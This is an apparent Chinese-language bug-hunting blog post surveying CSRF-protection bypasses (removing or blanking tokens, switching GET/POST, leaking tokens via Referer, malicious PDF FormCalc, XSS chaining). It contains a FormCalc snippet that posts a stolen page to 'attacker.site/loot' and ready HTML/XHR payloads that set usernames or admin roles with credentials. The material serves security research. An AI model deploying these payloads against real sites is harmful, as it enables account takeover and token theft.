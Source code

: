 
我的twitter @C1h2e11每天固定转载优质文章和思路，欢迎关注！
#	 起因
我最近在研究国外的各种新思路，最近看到了一篇CSRF的相关文章，只是写了各种Poc，我在写之前查找了大量的案例，这也就是为什么说技术分享的受益最大永远都是分享者，在这些案例里面我发现大多都是没有CSRF token或者其他防护机制的，同样的我查找了很多文章关于CSRF攻击，也并没有找到我想要的，于是就有了今天的文章


# CSRF Protection?
我们在漏洞挖掘过程中不难看出，很多时候我们会遇到各种CSRF的防护机制，随便一个网站都有token或者其他的防护机制。下面我们需要了解一下常见的防护方法
-	CSRF token
-	Referer Based Protection
-	XRSF Header
-	verify code
-	Seesions timeout
-	Double Password
....



# Bypass
我尽力寻找了各种案例和bypass思路，文后会有我看过的文章链接

---
删！
这个思路再很多时候都适用，面对`Referer` `XRSF Header` `token`都可以对其进行删除
这里我们用一个案例来说明
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`
写文的日子是`2019-1-8`这个write up是前天的漏洞，删除了`XRSF Header`

---
改！
这个思路我是在medium上看见的
`https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276`
修改了请求方式GET改成了POST 同样的漏洞挖也挖到过一次，我先修改了请求方式，并把POST的参数通过GET传入，但是也成功完成了CSRF攻击
如果你观察的仔细的话你可以看出
`http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/`这个案例删除了`XRSF Header`但是没有成功还是需要修改POST为GET

---
盗token！
尝试从其他渠道获得CSRF token
`http://www.anquan.us/static/bugs/wooyun-2015-090935.html`
利用了Referer泄露获取CSRF token 再利用CSRF token进行CSRF攻击

---
Use Bad PDF
`get() and post() methods of FormCalc allow to ex-filtrate CSRF-token`
这是我在twitter找到的一个文档上的原文
其实就是我们的PDF被浏览器解析，因为插件的原因可以进行请求，我们上传恶意的PDF文件在目标网站这样可以绕过referer甚至CSRF token ，这个漏洞和去年(2018)阿里的Chrome支持的PDF跳转是类似的。
我们只需要制作恶意的PDF文件，在里面插入我们的恶意代码
```html
<script contentType='application/x-formcalc'>
var content = GET("https://example.com/Settings.action"); Post("http://attacker.site/loot",content,"text/plain");
</script>
```
没错Poc是抄的，原地址
`https://speakerd.s3.amazonaws.com/presentations/05f698063d87416ba0ec312d0948799b/ZeroNights_2017.pdf`
这是一个CSRF bypass的PPT本文的一些思路也取自这里

---
改Cookie！
有些时候我们会遇到哪种可以修改cookie的漏洞
比如`CLRF`等，我们可以利用这些漏洞打组合拳进行CSRF攻击

---
组合拳！
XSS+CSRF
可以利用XSS漏洞进行直接的请求饶过Referer限制
也可以利用XSS盗取CSRF token 从而进行CSRF漏洞利用

---

# 浓缩
我在寻找更多bypass手段的时候我找到了这个调查
![CSRF]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/CSRF/CSRF1.png"|CSRF}})

![CSRF]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/CSRF/CSRF2.png"|CSRF}})

那么我们真正在实战中用到比较多的就是

-	删除CSRF token
-	置空token参数
-	修改请求方法
-	与token相同长度的任意字符串替换token
-	固定token
我相信看到这里各位已经心领神会了

---





# 关于提交方式
```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```
```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```
```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```
```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST"&>
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":admin}');
</script>
```

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

#	参考链接
```
https://medium.com/@Skylinearafat/a-very-useful-technique-to-bypass-the-csrf-protection-for-fun-and-profit-471af64da276
https://medium.com/@iaincollins/csrf-tokens-via-ajax-a885c7305d4a
https://medium.com/@arbazhussain/stealing-access-token-of-one-drive-integration-by-chaining-csrf-vulnerability-779f999624a7
https://medium.com/bugbountywriteup/content-negotiation-with-csrf-969e639d6a1a
https://medium.com/rubyinside/a-deep-dive-into-csrf-protection-in-rails-19fa0a42c0ef
https://speakerd.s3.amazonaws.com/presentations/05f698063d87416ba0ec312d0948799b/ZeroNights_2017.pdf
Check out @detectify’s Tweet: https://twitter.com/detectify/status/1081520785322332166?s=09
http://infosecflash.com/2019/01/05/how-i-could-have-taken-over-any-pinterest-account/
https://github.com/TheRook/CSRF-Request-Builder
```

#	反思
沉淀!
